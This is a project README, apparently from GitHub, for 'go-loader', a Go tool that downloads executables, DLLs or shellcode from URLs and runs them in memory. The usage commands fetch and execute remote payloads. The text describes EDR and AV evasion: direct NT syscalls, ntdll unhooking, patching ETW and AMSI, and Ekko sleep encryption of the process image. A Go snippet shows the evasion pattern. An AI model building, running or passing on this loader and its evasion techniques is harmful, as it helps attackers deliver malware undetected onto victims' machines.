 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## usage
![demo](https://github.com/user-attachments/assets/9f45cf71-1578-4393-94d6-7cc5475870d3)


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys.
> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang

## use this pattern for a more reliable form of evasion

```go
    // import pkg/net and pkg/patch
    patch.ETW
    patch.AMSI
	addr, size, err := net.GetGlobalBufferRegion()
	if err != nil {
		log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
	}

	key, err := ekko.GenerateKey(16)
	if err != nil {
		log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
	}

	err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
	if err != nil {
		log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
	}

	// we just call it again to decrypt bc symmetric 
	err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
	if err != nil {
		log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
	}

```

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
